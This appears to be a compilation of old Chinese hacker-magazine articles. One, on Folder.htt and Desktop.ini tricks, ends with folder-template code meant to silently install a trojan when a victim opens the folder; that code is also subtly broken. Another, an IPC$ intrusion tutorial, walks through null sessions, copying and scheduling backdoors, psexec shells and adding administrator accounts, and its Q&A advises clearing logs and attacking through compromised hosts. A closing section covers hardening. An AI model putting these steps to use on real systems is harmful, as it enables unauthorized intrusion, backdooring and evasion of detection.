... AAAAAAAAAA ...
```

### 四、小结

利用蜜罐技术来模拟真实的网络服务资源环境，大大方便了研究网络安全结构、修补复杂网络环境中存在的各种弊病，同时实现对操作系统、安全产品的测试和质量评判。

当然，Hit@me 结构的蜜罐也存在缺陷。例如当入侵者使用隐秘的 SSH 登录，则无法监测其行为特性；在实现虚拟系统中如何引诱攻击行为、庞大数据资源如何快速加工整理等问题。

我希望大家能和我一起讨论并解决这些困难。蜜罐在安全问题日益严重的今天，越来越体现了它无比优越的实用性。

## Folder.htt 和 Desktop.ini 文件特性泄漏（上）

王智雄

如果某天发现你的硬盘里存在大量的 Desktop.ini 和 Folder.htt，那么，祝贺你，你的机器已感染了欢乐时光病毒。就算删除了目录中的两个文件“Desktop.ini”和“Folder.htt”，当再次打开该目录时，这两个文件就像幽灵一样又出现。别自欺欺人了，你已经中毒啦！看看欢乐时光病毒的报告：

- 别名：VBS/Redlof.A，HTML/Redlof.A
- 传播范围：低
- 破坏性：低
- 蔓延性：中

该病毒还进入了 2002 年十大流行病毒排行榜。好在它良心还在，破坏性不大。不知大家有没有注意，在 Win9X 系统中，出现最多的重复文件名是什么呢？不知道吧！告诉你：是 Desktop.ini。在 Windows、Windows Favorites、Windows System、Windows Fonts、Windows Tasks、My Documents、Program Files、Recycled、我的公文包和 Temporary Internet Files 等文件夹中都有 Desktop.ini 文件。不同文件夹中的 Desktop.ini 有不同作用，我们可利用这些文件来实现另外的目的。

### 一、Windows 下隐藏大法

#### 1. 给文件夹加上密码

在学校的机房和校园网络的管理中，经常会碰到这样的情况：一些计算机常因学生误删了 Windows 目录或 SYSTEM 目录下的一些系统文件而导致无法正常启动。是否有方法可以把 Windows 及其它重要目录保护起来呢？方法是有的，我们只需在 Folder.htt 文件中进行必要的修改，就可改变文件夹打开的行为。

这样修改这个 Folder.htt：

- （1）在 C 盘的 Windows 文件夹中找到 Folder.htt 文件（该文件为隐藏文件，并且不同系统内容可能不同）。本文以 Windows 98 下的 Folder.htt 为例，找到以下内容：

```html
<a href=\"\" class=command onclick=\"ShowFiles(); ...\">显示文件</a>
```

将其修改为：

```html
<a href=\"\" class=command onclick=\"ShowFiles(); ...\">输入密码</a>
```

- （2）找到以下内容：

```javascript
function ShowFiles() {
  Info.innerHTML = L_Intro_Text + "<br><br>" + L_Prompt_Text;
  showFiles = true;
  document.all.FileList.style.display = "";
  document.all.Brand.style.display = "none";
  FixSize();
}
```

修改为：

```javascript
function ShowFiles() {
  var password = prompt("请输入密码:", "");
  if (password == "你的密码") {
    Info.innerHTML = L_Intro_Text + "<br><br>" + L_Prompt_Text;
    showFiles = true;
    document.all.FileList.style.display = "";
    document.all.Brand.style.display = "none";
    FixSize();
  } else {
    alert("警告，密码错误！您无权浏览该目录！");
  }
}
```

- （3）保存修改后的 Folder.htt 文件，退出 Windows 文件夹。完成上述操作步骤后，再进入 Windows 目录时，系统提示输入密码，只有输入正确的密码才能进入该目录。通过修改打开行为代码，就可实现对某个目录的简单加密。

#### 2. 任意文件夹和硬盘分区的保护

根据同样的原理，我们可对任意文件夹及硬盘分区设置保护口令，具体操作步骤如下：

- 1. 打开要加密的文件夹或硬盘分区，选择文件菜单中的“查看→自定义文件夹”。
- 2. 在打开的“自定义文件夹”窗口中，选择“创建或编辑 HTML 文档”，依次点击“下一步”，完成向导。
- 3. 在 C 盘 Windows 目录找到 Folder.htt，复制到当前文件夹并覆盖原文件，然后编辑相关代码（如 var L_Intro_Text ...）。

修改该文件夹的内容可能导致程序运行不正常……完成 Folder.htt 的文件修改后，再进入相应的文件夹或硬盘分区，则需要提供正确口令，否则无法显示该文件夹的内容。

#### 3. 把文件夹中的内容隐藏掉

拷贝 Windows 目录下的 Desktop.ini 到目标文件夹，用“记事本”建立一个超文本模板文件 Folder.htt……将目标文件夹属性改为“只读”后可隐藏原有内容，取消“按 Web 页查看”后可恢复显示。

```html
<html>
</html>
```

#### 4. 把所有文件夹都变成“回收站”

在 MS-DOS 中进入 Recycled 目录，拷贝隐藏文件 Desktop.ini 到目标文件夹并设为“只读”，刷新后文件夹外观会变成“回收站”。文中说明其原理是用“回收站”界面遮住原内容，并不真正删除文件。

真正的“回收站”内容不会放到这里；可将其伪装为“快捷方式回收站”等名称，也可借助 Desktop.ini 实现类似“Windows Fonts”“Windows Tasks”等特殊外观。

### 三、给 Windows 换外衣

#### 1. 给文件夹换图标

编辑 desktop.ini，在 `[.ShellClassInfo]` 下加入 `IconFile=C:\command\command.exe`（路径需完整）；图标可为 *.ico、*.exe、*.bmp、*.dll 等资源。

#### 2. 给文件夹加注释

在 `[.ShellClassInfo]` 中加入 `InfoTip=` 字段（示例为院系班级信息），鼠标悬停文件夹即可显示注释。

#### 3. 为文件夹添加背景音乐

```html
<body scroll=no onload="Init()">
<bgsound src="c:\windows\media\chimes.wav" loop=-1>
```

#### 4. 在文件夹左窗口添加超链接

```html
<!-- allow references to any resources you might add to the folder -->
<p><a class=command href="d:\my documents">我的文档</a></p>
```

#### 5. 为文件夹添加滚动条

打开文件夹时可显示欢迎词滚动条；在 Folder.htt 指定位置加入 `<marquee bgcolor="#ff8080">欢迎词</marquee>`，也可设置方向 `direction="right"` 与颜色值（如 #ff0000、#800000、#FF8080、#FFFF00、#800080）。

#### 6. 为文件夹添加提示框

```html
<body scroll=no onload="window.alert('欢迎词等等')">
```

#### 7. 让 Win98 披上 Win2000 外衣

介绍在 Win2000 中的媒体预览能力，以及在 Win98 中通过修改 `Windows\Web\Folder.htt` 和播放器版本条件实现类似效果的方法。

- 1）用记事本或其他文本编辑软件打开 `Windows\Web\Folder.htt` 文件。
- 2）通过搜索 wantMedia，可找到 Folder.htt 文件的 `var wantMedia=false` 行，将它改为 `var wantMedia="ture"`。

> LOOK 注意：这里的 ture 需要加引号，否则在我们选择“按 Web 页”时，可能会出现错误（图 6）。

以后，在 Win98 中，当我们选中声音文件或电影文件时（当然，首先需要选中“查看”中的“按 Web 页”），文件列表左边就会出现一个预览窗口，单击“播放”按钮就可浏览了。但当我们选中 MP3 或 VCD 影碟上 DAT 格式文件时，Windows 却毫无反应。怎么办？那好吧！就让我们再来修改一下 Folder.htt 文件。

通过搜索 avi，我们可找到 Folder.htt 文件中的如下两部分：

```javascript
if (ext == 'avi' || ext == 'mov' || ext == 'qt' || ext == 'mpe' || ext == 'mpeg' || ext == 'mpg')
else if (ext == 'aif' || ext == 'aifc' || ext == 'aiff' || ext == 'au' || ext == 'mid' || ext == 'rmi' || ext == 'snd' || ext == 'wav')
```

在第一句末尾添加：`|| ext == 'dat'`，在第二句末尾添加：`|| ext == 'mp3'`。

> LOOK 注意：添加的内容必须被包括在括号内，顺序前后没关系（如图 7）。

OK！现在让我们试一试，选中一个 MP3 或 VCD 影碟中的 DAT 文件，Windows 98 有什么反应？是不是和 Windows 2000 一模一样？单击“播放”按钮，我们就可一边感受音乐，一边欣赏 MTV！预览窗口太小，满足不了你的要求？我们再为 Folder.htt 文件动一次手术。首先，打开 Folder.htt 文件，通过搜索 avi，我们找到 `if (ext == 'avi' ... )` 和 `else if (ext == 'aif' ... )`。在 if 语句和 else if 语句下方，分别可发现 `style="width: 160px; height: 148px"` 和 `style="width: 160px; height: 28px"`，它们分别代表预览窗口和播放条的大小。

我们调整一下预览窗口的大小，将其改为 `style="width: 400px; height: 300px"`，保存退出。打开一个 DAT 文件，选中“查看”中的“按 Web 页”，就发现预览窗口已经增大了，但滚动条挡住了许多。怎么办？看来我们需要再次嵌入 Folder.htt 文件了，通过搜索 #Panel，我们找到 `#Panel {position: absolute; width: 30%; height: 100%; overflow: auto; ...}`，将 `width: 30%` 改为 `width: 60%`。保存退出后，就可看到预览窗口的全貌了（如图 8）。

同理，我们还可调整播放条的大小，如果将 `height: 28px` 改为 `height: 148px`，以后当我们预览 wav、mp3 等声音文件时，就可看到整个预览窗口。

上文给大家讲了 Folder.htt 和 Desktop.ini 文件在 Windows 下的隐藏方法，以及其他个性功能。本文接着为大家阐述 Folder.htt 和 Desktop.ini 文件在黑客方面的应用。

## Folder.htt 和 Desktop.ini 文件有何能耐（下）

王智雄

### 三、黑客应用——利用文件夹安装木马

如何利用文件夹来安装木马呢？我们的目的是：对方只要打开某个文件夹就自动安装！办法是有的，详细听笔者下面的讲述。

- 1. 先在桌面下建立一个文件夹“test”，并进入该文件夹，点击“工具”菜单，选择“文件夹选项”（图 1），弹出文件夹选项对话框（图 2），把“隐藏受保护的操作系统文件（推荐）”复选项前面的勾去掉，此时会弹出图 3 所示的警告提示窗口。按惯例，直接点击“是”。再选择“隐藏文件和文件夹”下的“显示所有文件和文件夹”选项，最后点击“确定”，在目录下就会出现 Folder Settings 隐藏文件夹和 Desktop.ini 隐藏文件（图 4）。
- 2. 点击“查看”菜单，选择“自定义文件夹”（图 5），在打开的“自定义文件夹”窗口中选择“创建或编辑 HTML 文档”，单击“下一步”按钮（图 6），再单击“下一步”按钮，关闭记事本编辑窗口，单击“完成”按钮。就把文件夹设置成“按 WEB 方式打开文件夹”。
- 3. 再打开要放木马的文件夹。我们就在这个文件夹里测试。Folder.htt 是文件夹的模板文件，现在我们修改文件夹的模板文件，在里面插入一段自动运行程序的代码：

```html
<script language="javascript">
fun_exe="<OBJECT ID=\"RUNIT\" WIDTH=0 HEIGHT=0 TYPE=\"application/x-oleobject\""
run_exe+="CODEBASE=\"test.exe#version=1,1,1,1\"></"
run_exe+="<PARAM NAME=\"Version\" value=\"65536\">"
run_exe+="</OBJECT>"
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
```

这段代码里的 test.exe 就是我们要安装的木马文件，为了给大家看到效果，我运行的是 LC4。

- 4. 现在，我们把要运行的 test.exe 文件 Copy 到这个文件夹里。好了，现在把文件查看属性修改回去，就是上面第 1 步的逆过程。
- 5. 如果你不想木马立即运行，请把窗口直接关闭，等管理员来运行吧！让我们来看个效果，退出 test 文件夹，然后双击 test 文件夹图标。怎么样，运行了吧！大家可把 test.exe 换成小点的木马，这样对方就在不知道的情况下给自己装了木马。

### 四、总结

以后打开文件夹要小心哦！里面可有文章做啊！好了，Folder.htt 和 Desktop.ini 文件的应用和注意事项都讲了，是不是觉得很有意思呢？建议大家最好不要按 WEB 方式查看文件夹，还有很多病毒可以感染 Folder.htt 文件呢！不信你查查资料去。好了，到此为止吧！如有不足之处，请大家到 X 档案的论坛发言（http://www.hackerxfiles.net/bbs/）。

## IPC$ 攻防

### 入侵攻防·完全解密（上）

### 摘要

网上关于 ipc$ 入侵的文章很多，且常有重复与误解。本文试图系统梳理 IPC$ 相关问题，澄清常见错误，说明其真实风险与讨论边界。

> ### 注意
> 本文讨论的场景主要针对 WinNT/2000 环境，不包含 Win98。

### 什么是 IPC$

IPC$（Internet Process Connection）是基于“命名管道”的共享资源，用于进程间通信与远程管理。通过可信用户与口令可建立安全通道并交换数据。WinNT/2000 默认共享（如 c$、d$、admin$ 等）在便利管理的同时也带来安全面收缩问题。

很多所谓 ipc$“漏洞”本质上指向空会话（Null Session）风险。IPC$ 并非传统意义漏洞，而是被不当配置和弱口令环境放大后的攻击入口。

### 什么是空会话

在 Windows NT 4.0 场景下，会话建立大致为：客户端请求建立安全隧道；服务器返回挑战值；客户端用口令相关信息计算响应；服务器（本地或域控）核验；成功后下发访问令牌并授权资源访问。

空会话是在未提供用户名与密码的情况下建立的会话。按 Win2000 访问控制模型，空会话仍可能获得特定匿名令牌（ANONYMOUS LOGON）及最小权限组信息。

- 1. 会话请求者（客户端）向接收者（服务器）发起请求。
- 2. 服务器返回随机挑战值（如 64 位数）。
- 3. 客户端基于口令材料构造响应并回传。
- 4. 服务器调用本地安全认证（LSA）核验，成功后生成访问令牌。

| 匿名可见组 |
|---|
| Everyone |
| Network |

### 空会话可以做什么

在默认安全设置下，空连接可枚举部分目标信息（如用户与共享），其利用价值取决于系统版本、策略配置与后续口令攻击链。对攻击者而言，用户列表可显著提升口令猜解效率，因此空会话并非“毫无用处”。

```bash
net use \\target\ipc$ "" /user:""
```

图 2

## 精彩连载100%

- 2. 查看远程主机的共享资源，如图3所示。  

解释：前提是建立了空连接后，用图3中的命令可查看远程主机的共享资源。如果它开了共享，可得到图3的结果，但此命令不能显示默认共享。  

图3

- 3. 查看远程主机的当前时间，如图4所示。  

解释：用图4中的命令可得到一个远程主机的当前时间。  

图4

- 4. 得到远程主机的 NetBIOS 用户名列表（需要打开自己的 NBT），如图5所示。  

图5

以上就是我们经常使用空会话做的事情，好像也能获得不少东西哟！不过要注意一点：建立 IPC$ 连接的操作会在 Event Log 中留下记录，不管你是否登录成功。好了，下面我们就来看看 IPC$ 所使用的端口是什么？

### IPC$ 所使用的端口

- 首先我们先了解一些基础知识：  
  1. SMB（Server Message Block）：Windows 协议族，用于文件打印共享的服务；  
  2. NBT（NetBIOS Over TCP/IP）：使用 137（UDP）、138（UDP）、139（TCP）端口实现基于 TCP/IP 协议的 NetBIOS 网络互联；  
  3. 在 Windows NT 中 SMB 基于 NBT 实现，即使用 139（TCP）端口；而在 Win2000 中，SMB 除了基于 NBT 实现，还可直接通过 445 端口实现。  

有了这些基础知识，我们就可以进一步讨论访问网络共享对端口的选择了。

## 对于 Win2000 客户端（发起端）来说：

- 1. 如果在允许 NBT 的情况下连接服务器，客户端会同时尝试访问 139 和 445 端口。如果 445 端口有响应，那么就发送 RST 包给 139 端口断开连接，用 445 端口进行会话；当 445 端口无响应时，才使用 139 端口；如果两个端口都没有响应，则会话失败；  
  2. 如果在禁止 NBT 的情况下连接服务器，那么客户端只会尝试访问 445 端口；如果 445 端口无响应，那么会话失败。  

## 对于 Win2000 服务器端来说：

- 1. 如果允许 NBT，那么 UDP 端口 137、138、TCP 端口 139、445 将开放（LISTENING）；  
  2. 如果禁止 NBT，那么只有 445 端口开放。  

我们建立的 IPC$ 会话对端口的选择同样遵守以上原则。显而易见，如果远程服务器没有监听 139 或 445 端口，IPC$ 会话是无法建立的。

### IPC 管道在 hack 攻击中的意义

IPC 管道本来是微软为了方便管理而设计的，什么入侵者都来，开放 IPC 管道的主机似乎更容易得手。通过 IPC 管道，可远程调用一些系统函数（大多通过工具实现，但需要相应的权限），这些往往是入侵成败的关键。

如果不考虑这些，仅从传送文件这一方面，IPC 管道已经给了入侵者莫大的支持，甚至已经成为了最重要的传输手段。因此你总能在各大论坛上看到一些朋友因为打不开目标机器的 IPC 管道而一筹莫展。当然，我们也不能忽视权限在 IPC 管道中扮演的重要角色，想必你一定品尝过空会话的尴尬。没有权限，开启管道我们也无可奈何。但入侵者一旦获得了管理员的权限，那么 IPC 管道这把双刃剑将显示出它狰狞的一面。

### IPC$ 连接失败的常见原因

- 以下是一些常见的导致 IPC$ 连接失败的原因：  
  1. IPC 连接是 WinNT 及以上系统中特有的功能，由于其需要用到 WinNT 内核多 DLL 函数，所以不能在 Win9X/Me 系统中运行；即只有 WinNT/2000/XP 才可相互建立 IPC$ 连接，Win98/Me 是不能建立 IPC$ 连接的；  
  2. 如果想成功建立一个 IPC$ 连接，就需要响应方开启 IPC$ 共享；即使是空连接也是这样，如果响应方关闭 IPC$ 共享，将不能建立连接；  
  3. 连接发起方未启动 LanmanWorkstation 服务（显示名为：Workstation）；它提供网络连接和通讯，没有它发起方无法发起连接请求；  
  4. 响应方未启动 LanmanServer 服务（显示名为：Server）；它提供 RPC 支持、文件、打印以及命名管道共享，IPC$ 依赖于此服务，没有它主机将无法响应发起方的连接请求，不过没有它仍可发起 IPC$ 连接；  
  5. 响应方未启动 NetLogon，它支持网络上计算机 pass-through 账户登录身份（不过这种情况好像不多）；  
  6. 响应方的 139、445 端口未处于监听状态或被防火墙屏蔽；  
  7. 连接发起方未打开 139、445 端口；  
  8. 用户名或者密码错误。如果发生这样的错误，系统将给你类似于“无法更新密码”这样的错误提示（显然空会话排除这种错误）；  
  9. 命令输入错误。可能多了或少了空格；当用户名和密码中不包含空格时，两边的双引号可以省略，如果密码为空，直接输入两个引号 `""` 即可；  
  10. 如果在已建立好连接的情况下对方重启计算机，那么 IPC$ 连接将会自动断开，需要重新建立连接。  

- 另外，你也可根据返回的错误号分析原因：  
  - 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限；  
  - 错误号 51，Windows 无法找到网络路径：网络有问题；  
  - 错误号 53，找不到网络路径：IP 地址错误；  
  - 目标未开机，目标 LanmanServer 服务未启动；目标有防火墙（端口过滤）；  
  - 错误号 67，找不到网络名：你的 LanmanWorkstation 服务未启动或目标删除了 IPC$；  
  - 错误号 1219，提供的凭据与已存在的凭据冲突：你已经和对方建立了一个 IPC$，请删除再连；  
  - 错误号 1326，未知的用户名或错误密码；  
  - 错误号 1792，试图登录，但是网络登录服务没有启动：目标 NetLogon 服务未启动；  
  - 错误号 2242，此用户的密码已经过期：目标有账号策略，强制定期要求更改密码。  

> LOOK 注意：不要以为 administrator 就一定具有管理员权限，管理员名称是可以改的。

管理员可访问默认共享的文件夹，但不一定能访问普通共享文件夹，因为管理员可对普通共享文件夹进行访问权限设置。

### 复制文件失败的原因

有些朋友虽成功建立了 IPC$ 连接，但在 copy 时却遇到提示，无法复制成功。那么导致复制失败的常见原因有哪些呢？

#### 1. 对方未开启共享文件夹

这类错误出现得最多，占到 50% 以上。建议在复制前先用 `net view \\IP` 查看目标共享是否存在。

#### 2. 向默认共享复制失败

- 1) 建立 IPC$ 连接的主机不一定开放了默认共享（如 c$、d$、admin$）；  
  2) `net view \\IP` 无法显示默认共享（默认共享带 `$`），因此不能仅凭该命令判断默认共享是否开启。  

> LOOK 注意：IPC 共享、默认共享、普通共享三者不同。IPC 共享是命名管道，不是实际共享文件夹；默认共享是系统默认开启的共享；普通共享是用户手工开启并可设权限的共享文件夹。

### 3. 用户权限不够，包括四种情形：

- 1) 空连接访问所有共享时，复制权限不足；  
  2) 向默认共享复制时，不同 Windows 版本对 Administrators/Backup Operators/Server Operators 权限要求不同；  
  3) 向普通共享复制时，需要具备相应访问权限；  
  4) 对方可通过防火墙或安全软件禁止外部访问共享。  

### 4. 被防火墙拦截或在局域网

复制操作可能已经成功，但远程运行阶段被防火墙拦截导致看似失败；或将木马复制到局域网主机后连接失败，容易误判为复制失败。

IPC$ 连接实战中问题很多，文中仅总结常见错误。

### 关于 at 命令和 XP 对 IPC$ 的限制

文中建议用 `psexec.exe` 远程运行程序替代 at。示例：假设远程主机管理员为 administrator，密码 1234，可执行如下命令将 `c:\xinxin.exe` 复制并运行。

```bash
psexec \\ip -u administrator -p 1234 -c c:\\xinxin.exe
```

XP 默认安全选项会限制远程访问权限，即使知道管理员账号密码，也常因权限不足导致失败。

### 如何打开目标 IPC$ 共享及其他共享

目标 IPC$ 不一定默认开启，需要在具备管理员权限的 shell 下执行共享命令。

```bash
net share ipc$      // 开放目标的 IPC$ 共享
net share ipc$ /del // 关闭目标的 IPC$ 共享
```

## 精彩连载100%

给它开共享文件夹，可以用 `net share xinxin=c:\`，这样把电脑的 c 盘开为共享名为 xinxin 的共享文件夹了（很多人错误地认为开共享文件夹的命令是 `net share c$`）。再次声明，这些操作都是在 shell 下才能够实现的。

### 一些需要 shell 才能完成的命令

看到很多教程这方面写得十分不准确，一些需要 shell 才能完成的命令说简简单单地在 IPC$ 连接下执行了，起了误导作用。下面我总结一下需要在 shell 才能完成的命令：

- 1. 向远程主机建立用户、激活用户、修改用户密码、加入管理员组的操作需要在 shell 下完成；  
  2. 打开远程主机的 IPC$ 共享、默认共享、普通共享的操作需要在 shell 下完成；  
  3. 运行/关闭远程主机的服务，需要在 shell 下完成；  
  4. 启动/杀掉远程主机的进程，也需要在 shell 下完成（用软件的情况除外，如 pskill）。  

好了，由于篇幅所限，本期就先说到这里吧，下期将再为大家献上以防范和问答方面的内容，敬请期待！

大家好，我又回来了，这次给大家带来《IPC$ 入侵攻防完全解惑》的下半部分，希望大家能喜欢。

## 十二 入侵中可能会用到的命令

为了这份教程的完整性，我列出了 IPC$ 入侵中的常用命令，如果你已掌握了这些命令，可跳过这部分看下面的内容。

> **LOOK 注意**：要看这些命令是适用于本地还是远程；如果只适用于本地，则只能在获得远程主机的 shell（如 cmd、telnet 等）后执行。  
> **LOOK 注意**：`at` 时间尽量使用 24 小时制；若要运行的程序在系统默认搜索路径（如 system32）下则可不加路径，否则必须加全路径。

### 1. 建立 / 删除 IPC$ 连接的命令

```bash
(1) 建立空连接
net use \\127.0.0.1\ipc$ "" /user:""

(2) 建立非空连接
net use \\127.0.0.1\ipc$ "密码" /user:"用户名"

(3) 删除连接
net use \\127.0.0.1\ipc$ /del
```

#### 2. 在 IPC$ 连接中对远程主机的操作命令

```bash
(1) 查看远程主机的共享资源（看不到默认共享）
net view \\127.0.0.1

(2) 查看远程主机的当前时间
net time \\127.0.0.1

(3) 得到远程主机的 NETBIOS 用户名列表
nbtstat -A 127.0.0.1

(4) 映射 / 删除远程共享
net use z: \\127.0.0.1\c
net use z: /del

(5) 向远程主机复制文件
copy 路径\文件名 \\IP\共享目录名
如：copy c:\xinxin.exe \\127.0.0.1\c$

(6) 远程添加计划任务
at \\IP 时间 程序名
如：at \\127.0.0.1 11:00 xinxin.exe
```

#### 3. 本地命令

```bash
(1) 查看本地主机的共享资源
net share

(2) 得到本地主机的用户列表
net user

(3) 显示本地某用户的账户信息
net user 账户名

(4) 显示本地主机当前启动的服务
net start

(5) 启动 / 关闭本地服务
net start 服务名
net stop 服务名

(6) 在本地添加账户
net user 账户名 密码 /add

(7) 激活禁用的用户
net user 账户名 /active:yes

(8) 加入管理员组
net localgroup administrators 账户名 /add
```

虽然这些都是本地命令，但若在远程主机的 shell 中输入（例如 Telnet 成功后输入），其作用对象就是远程主机。

#### 4. 其他一些命令

```bash
(1) telnet
telnet IP 端口
如：telnet 127.0.0.0 23

(2) 用 OpenTelnet.exe 开启远程主机的 telnet
OpenTelnet.exe \\ip 管理员账号 密码 NTLM 的认证方式 port
如：OpenTelnet.exe \\127.0.0.1 administrator "" 1 90
```

- 1. 目标开启了 IPC$ 共享；  
  2. 要拥有管理员密码和账号；  
  3. 目标如开启 RemoteRegistry 服务，可更改 NTLM 认证；  
  4. 仅对 Win2K/XP 有效。  

```bash
psexec.exe \\IP -u 管理员账号 -p 密码 cmd
如：psexec.exe \\127.0.0.1 -u administrator -p "" cmd
```

## 十三 对比过去和现在的 IPC$ 入侵

既然是对比，那我就先把过去的 IPC$ 入侵步骤写给大家：

- 1. `C:\>net use \\127.0.0.1\ipc$ "" /user:administrators`（建立连接）  
  2. `C:\>net view \\127.0.0.1`（查看远程共享）  
  3. `C:\>copy srv.exe \\127.0.0.1\admin$\system32`（复制后门）  
  4. `C:\>net time \\127.0.0.1`（查看时间）  
  5. `C:\>at \\127.0.0.1 时间 srv.exe`（计划任务执行）  
  6. `C:\>net time \\127.0.0.1`（再次确认）  
  7. `C:\>telnet 127.0.0.1 99`（获取 shell）  
  8. `C:\WINNT\system32>net start telnet`（启动 telnet 服务）  
  9. `C:\>copy ntlm.exe \\127.0.0.1\admin$\system32`（上传 ntlm）  
  10. `C:\WINNT\system32>ntlm.exe`（修改 telnet 身份验证）  
  11. `C:\>telnet 127.0.0.1 23`（建立长期后门）  
  12. `C:\WINNT\system32>net user 账户名 密码 /add` 及相关用户组命令  

/acid

// telnet 上以后，就可建立新账户，激活 guest，把任意账户加入管理员组等。

好了，写到这些我似乎回到了两、三年前，那时的 IPC$ 大家都是这么用的，不过随着新工具的出现，上面提到的某些工具和命令现在已经不常用了。让我们看看现在高效、简单的 IPC$ 入侵吧！

```bash
psexec.exe \\IP -u 管理员账号 -p 密码 cmd

// 用这个工具可一步获得 Shell（图1）
```

```bash
OpenTelnet.exe \\server 管理员账号 密码 NTLM 的认证方式 port

// 用它可方便地更改 telnet 验证方式和端口，以方便登录（图2）
```

一步获得 shell 后，你做什么都可以。安装后门可用 Winshell，克隆就用 CA 吧！开终端用 3389、VNC，记录密码用 win2kpass。总之好工具不少，随你选了，我就不多说了！

## 十四 如何防范 IPC$ 入侵

### 1. 禁止空连接进行枚举（此操作并不能阻止空连接的建立）

运行 regedit，找到如下主键：`[HKEY_LOCAL_MACHINE\...\SYSTEM\CurrentControlSet\Control\LSA]`，把 RestrictAnonymous（DWORD）的键值改为：1。如设置为“1”，一个匿名用户仍可连接到 IPC$ 共享，但无法通过这种连接得到列举 SAM 账号和共享信息的权限。在 Windows 2000 中增加了“2”，未取得匿名权限的用户将不能进行 IPC$ 空连接，建议设置为“1”。如果上面所说的主键不存在，就新建一个再改键值。如果觉得修改注册表较麻烦，可在“本地安全设置”中设置此项：在本地安全设置→本地策略→安全选项→对匿名连接的额外限制，如图3。

#### 2. 禁止默认共享

- 1. 查看本地共享资源：执行“开始→运行→cmd→输入 `net share`”；  
  2. 删除共享（重启后默认共享仍然存在）；  
  3. 停止 server 服务；  
  4. 禁止自动打开默认共享（此操作并不能关闭 IPC$ 共享）。  

```bash
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete
（如果有 e、f……可继续删除）
```

```bash
net stop server /y
```

注：重启后，server 服务会重新开启。  

执行“开始→运行→输入 regedit”。

server 版：找到如下主键：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]`，把 AutoShareServer（DWORD）的键值改为：00000000。  

pro 版：找到如下主键：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]`，把 AutoShareWks（DWORD）的键值改为：00000000。  

这两个键值默认情况下在主机上是不存在的，需要手动添加，修改后重启机器使设置生效。

### 3. 关闭 IPC$ 和默认共享依赖的服务——Server 服务

如果想关闭 IPC$ 共享，那就禁止 server 服务：执行“控制面板→管理工具→服务→找到 server 服务（右击）→属性→常规→启动类型→选‘已禁用’”。这时可能会有提示：XXX 服务也会关闭，是否继续。因为还有些次要服务要依赖于 server 服务，所以不用管它。

#### 4. 屏蔽 139、445 端口

如果没有以上两个端口的支持，则无法建立 IPC$。因此，屏蔽 139、445 端口同样可阻止 IPC$ 入侵。

- 1. 139 端口可通过禁止 NBT 来屏蔽：执行“本地连接→TCP/IP 属性→高级→WINS→选‘禁用 TCP/IP 上的 NETBIOS’”，如图4；  
  2. 445 端口可通过修改注册表屏蔽：添加一个键值。  

```text
Hive: HKEY_LOCAL_MACHINE
Key: System\ControlSet\Services\NetBT\Parameters
Name: SMBDeviceEnabled
Type: REG_DWORD
Value: 0
```

图4

修改完后重启机器。要注意的是，如果屏蔽掉了以上两个端口，将无法用 IPC$ 入侵。

#### 5. 安装防火墙进行端口过滤

#### 6. 设置复杂密码

将密码设置复杂些，以防止通过 IPC$ 穷举出密码，笔者觉得这才是最好的办法，比不停地打补丁要安全得多。

## 十五 IPC$ 入侵问答精选

上面说了一大堆的理论东西，但在实际操作中你会遇到各种各样的问题。因此，为了给予大家最大的帮助，笔者整理了各大安全论坛中一些有代表性的问题，其中的一些答案是我给出的，一些是论坛上的回复。如有什么疑问，还请指正！

- 1. 进行 IPC$ 入侵时，会在服务器中留下记录，有什么办法可不让服务器发现吗？  
  - 答：留下记录是一定的，离开时用清除日志程序删除即可，或者用肉鸡入侵。  
- 2. 下面的情况是怎么回事？可以连接但不能复制。  
  - `net use \\***.***.***.***\ipc$ "密码" /user:"用户名"` 命令成功  
  - `copy icmd.exe \\***.***.***.***\admin$` 找不到网络路径，命令不成功  
  - 答：多是因为想复制到的共享文件夹没有开启，可尝试找其他共享文件夹。  
- 3. 如果对方开了 IPC$，且能建立空连接，但打开 C、D 盘时都要输入密码，怎么办？  
  - 答：建议先用流光或别的扫描软件尝试猜解密码，猜不出来只能放弃，毕竟空连接能力有限。

## 精彩连载100%

- 4. 我已经解到了管理员密码，且已经 IPC$ 连接成功，但用 `net view \\ip` 发现对方没有开放默认共享，我该怎么办？

答：先纠正一个错误，用 `net view \\ip` 无法看到默认共享。你可尝试将文件复制到 `c$`、`d$`，若不行说明权限未到。可用 `pentenet.exe` 或 `psexec.exe` 试试。

- 5. IPC$ 连接成功后，我用 `net user ccbirds /add` 命令建立了一个账户，却发现在自己机器上，这是怎么回事？

答：IPC$ 建立成功只说明已与远程主机建立通信隧道，不意味着你获得 Shell。只有在获得一个 Shell（如 telnet）后，才能在远程机器建账户，否则操作仍在本机执行。

- 6. 已进入一台肉机，用管理员账号可看系统时间，但复制程序到对方机器总提示“拒绝访问，已复制 0 个文件”，是不是服务没开？

答：一般“拒绝访问”是权限不足，可能是账户问题。也可能是共享文件夹未把你包含在允许访问用户中（即使你是管理员）。

- 7. Win98 能与对方建立 IPC$ 吗？

答：理论上不可以。进行 IPC$ 操作建议用 Win2000，其他系统会有较多不必要麻烦。

- 8. 我用 `net use \\ip\ipc$ "" /user:""` 建立空会话，但 `nbtstat -A ip` 却导不出用户列表，为什么？

答：空会话默认可导出列表；若管理员改了默认策略则会出现“拒绝访问”。另一个常见原因是本机 NBT 未开启，`nbtstat` 命令基于 NBT。

- 9. 建立 IPC$ 连接时返回“提供的凭据与已存在的凭据冲突”，怎么回事？

答：说明你已经与该目标主机建立了 IPC$，同一时间建立两个 IPC$ 连接不允许。

- 10. 映射时出现：

```text
F:\>net use h: \\211.161.134.*\e$
系统发生 85 错误。
本地设备名已在使用中。
```

答：说明 `h` 盘符已存在，映射到未使用盘符即可。

- 11. 我建立了连接：

```text
f:\>net use \\*.*.*.*\ipc$ "123" /user:"guest"
```

显示成功，但映射时又要密码并报错：

```text
F:\>net use h: \\*.*.*.*\c$
密码在 \\*.*.*.*\c$ 无效。
请键入 \\*.*.*.*\c$ 的密码：
系统发生 5 错误。
拒绝访问。
```

答：提示输入密码说明当前用户权限不足，无法映射 `C$`。应提升权限或使用管理员账号。默认共享通常需要管理员权限。

- 12. 我用 superscan 扫到一个开有 139 端口的主机，但为什么不能空连接呢？

